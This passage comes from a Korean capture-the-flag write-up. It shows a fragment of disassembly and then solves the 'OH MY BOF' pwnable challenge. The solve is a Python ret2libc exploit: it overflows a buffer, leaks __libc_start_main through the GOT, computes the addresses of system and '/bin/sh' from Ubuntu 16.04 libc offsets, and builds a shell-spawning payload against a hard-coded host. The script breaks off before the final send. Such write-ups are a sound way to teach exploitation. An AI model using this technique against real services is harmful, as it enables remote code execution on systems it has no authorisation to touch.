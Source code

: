 ```
.text:0000059C                 mov     [esp+40Ch], eax
.text:000005A3                 mov     dword ptr [esp+408h], 147A0002h
.text:000005AE                 sub     esp, 4
.text:000005B1                 lea     eax, [esp+40Ch]
.text:000005B8                 push    10h             ; len
.text:000005BA                 push    eax             ; addr
.text:000005BB                 push    esi             ; fd
```

이후 각 stage에서 얻어온 key값을 합친 이후 base64 디코딩을 하게 되면 flag값을 확인 할 수 있다.


## 0x09 Pwnable OH MY BOF [100]
- 이번에도 bof 네요.
- bof는 쉽게 터지는데 쓸만한 곳이 없네요.
- got 에서 libc_start_main 라이브러리 주소 릭을 할수 있음
- Strings 해보면 컴파일 정보에서 Ubuntu 16.04.4 정보 나와있음.
- Ubuntu 16.04.4 에서 라이브러리 가지고 오프셋 구해서 슥삭하면되네요.

```python
import socket
from struct import *

p32 = lambda x:pack("<L",x)
up32 = lambda x:unpack("<L",x)[0]
host = "223.194.105.182"
port = 41001

def until(msg):
        data = ''
        while True:
                data += s.recv(1)
                if msg in data:
                        return data

s = socket.socket()
s.connect((host, port))
print until("attack:")

write = 0x080483E3
ppppr = 0x8048488
pr = 0x080482ad
add_ret = 0x080483a8
syscall = 0x080483FB

payload = "a" * 24
payload += p32(write)
payload += p32(0x0804a000)
s.send(payload)
print repr(s.recv(1024))

leak = s.recv(1024)
print repr(leak)
libc_start_main = up32(leak[12:16])
print hex(libc_start_main)

libc_base = libc_start_main - 0x18540 # It's Okay !
binsh = libc_start_main + 0x1432eb
system = libc_start_main + 0x22860

payload2 = "a" * 24
payload2 += p32(system)
payload2 += p32(0)
payload2 += p32(binsh)
```